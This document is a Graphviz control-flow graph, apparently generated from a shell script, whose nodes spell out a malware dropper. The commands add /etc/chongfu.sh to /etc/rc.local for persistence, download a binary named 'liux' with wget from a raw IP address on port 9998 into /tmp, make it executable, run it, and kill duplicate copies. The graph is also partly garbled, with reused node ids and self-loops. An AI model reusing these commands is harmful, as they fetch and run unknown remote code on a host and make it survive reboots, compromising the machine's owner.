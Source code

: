 digraph {
0 [label="[ sh /etc/chongfu.sh & = $(cat /etc/rc.local | grep /etc/chongfu.sh | grep -v grep) ] "];
0 -> 2 [label="SC,N,if,"];
2 [label="cat /etc/rc.local "];
2 -> 4 [label="N,N,"];
4 [label="grep /etc/chongfu.sh "];
4 -> 108 [label="N,"];
108 [label="grep -v grep "];
108 -> 122 [label="N,"];
122 [label="echo  "];
122 -> 10 [label=";,then,"];
10 [label="echo sh /etc/chongfu.sh & /etc/rc.local "];
10 -> 12 [label="else,"];
12 [label="/etc/rc.local "];
12 -> 12
14 [label="[ 1 ] "];
14 -> 16 [label="fi,SC,N,while,"];
16 [label="Centos_sshd_killn=$(ps aux | grep \"/tmp/liux\" | grep -v grep | wc -l) "];
16 -> 104 [label=";,do,"];
104 [label="ps aux "];
104 -> 74 [label="N,N,N,"];
74 [label="grep /tmp/liux "];
74 -> 108 [label="N,"];
108 [label="grep -v grep "];
108 -> 78 [label="N,"];
78 [label="wc -l "];
78 -> 26 [label="N,"];
26 [label="[ $Centos_sshd_killn -eq 0 ] "];
26 -> 82 [label="\n,SC,N,if,"];
82 [label="[ ! -f /tmp/liux ] "];
82 -> 84 [label=";,then,SC,N,if,"];
84 [label="[ -f /usr/bin/wget ] "];
84 -> 86 [label=";,then,SC,N,if,"];
86 [label="cp /usr/bin/wget . "];
86 -> 88 [label=";,then,"];
88 [label="chmod +x wget "];
88 -> 90 [label="\n,"];
90 [label="./wget -P /tmp/ http://60.250.99.131:9998/liux /dev/null "];
90 -> 92 [label="\n,"];
92 [label="/dev/null "];
92 -> 92
94 [label="chmod 755 /tmp/liux "];
94 -> 96 [label="\n,"];
96 [label="rm wget -rf "];
96 -> 98 [label="\n,"];
98 [label="echo No wget "];
98 -> 100 [label="\n,else,"];
100 [label="/tmp/liux "];
100 -> 48 [label="fi,fi,\n,"];
48 [label="[ $Centos_sshd_killn -gt 1 ] "];
48 -> 104 [label="&,elif,"];
104 [label="ps aux "];
104 -> 106 [label=";,then,SC,N,for,in,N,N,"];
106 [label="grep liux "];
106 -> 108 [label="N,"];
108 [label="grep -v grep "];
108 -> 110 [label="N,"];
110 [label="awk {print $2} "];
110 -> 58 [label="N,"];
58 [label="Centos_sshd_killn=$($Centos_sshd_killn-1) "];
58 -> 60 [label=",do,"];
60 [label="$Centos_sshd_killn-1 "];
60 -> 62 [label="N,N,"];
62 [label="[ $Centos_sshd_killn -eq 1 ] "];
62 -> 118 [label="\n,SC,N,if,"];
118 [label="continue "];
118 -> 120 [label=";,then,"];
120 [label="kill -9 $killed "];
120 -> 122 [label="else,"];
122 [label="echo  "];
122 -> 70 [label="fi,\n,done,else,"];
70 [label="Centos_ssh_killn=$(ps aux | grep \"/tmp/liux\" | grep -v grep | wc -l) "];
70 -> 104 [label="fi,\n,"];
104 [label="ps aux "];
104 -> 74 [label="N,N,N,"];
74 [label="grep /tmp/liux "];
74 -> 108 [label="N,"];
108 [label="grep -v grep "];
108 -> 78 [label="N,"];
78 [label="wc -l "];
78 -> 80 [label="N,"];
80 [label="[ $Centos_ssh_killn -eq 0 ] "];
80 -> 82 [label="\n,SC,N,if,"];
82 [label="[ ! -f /tmp/liux ] "];
82 -> 84 [label=";,then,SC,N,if,"];
84 [label="[ -f /usr/bin/wget ] "];
84 -> 86 [label=";,then,SC,N,if,"];
86 [label="cp /usr/bin/wget . "];
86 -> 88 [label=";,then,"];
88 [label="chmod +x wget "];
88 -> 90 [label="\n,"];
90 [label="./wget -P /tmp/ http://60.250.99.131:9998/liux /dev/null "];
90 -> 92 [label="\n,"];
92 [label="/dev/null "];
92 -> 92
94 [label="chmod 755 /tmp/liux "];
94 -> 96 [label="\n,"];
96 [label="rm wget -rf "];
96 -> 98 [label="\n,"];
98 [label="echo No wget "];
98 -> 100 [label="\n,else,"];
100 [label="/tmp/liux "];
100 -> 102 [label="fi,fi,\n,"];
102 [label="[ $Centos_ssh_killn -gt 1 ] "];
102 -> 104 [label="&,elif,"];
104 [label="ps aux "];
104 -> 106 [label=";,then,SC,N,for,in,N,N,"];
106 [label="grep liux "];
106 -> 108 [label="N,"];
108 [label="grep -v grep "];
108 -> 110 [label="N,"];
110 [label="awk {print $2} "];
110 -> 112 [label="N,"];
112 [label="Centos_ssh_killn=$($Centos_ssh_killn) "];
112 -> 114 [label=",do,"];
114 [label="$Centos_ssh_killn "];
114 -> 116 [label="N,N,"];
116 [label="[ $Centos_ssh_killn -eq 1 ] "];
116 -> 118 [label="\n,SC,N,if,"];
118 [label="continue "];
118 -> 120 [label=";,then,"];
120 [label="kill -9 $killed "];
120 -> 122 [label="else,"];
122 [label="echo  "];
122 -> 123 [label="fi,\n,done,else,"];
}
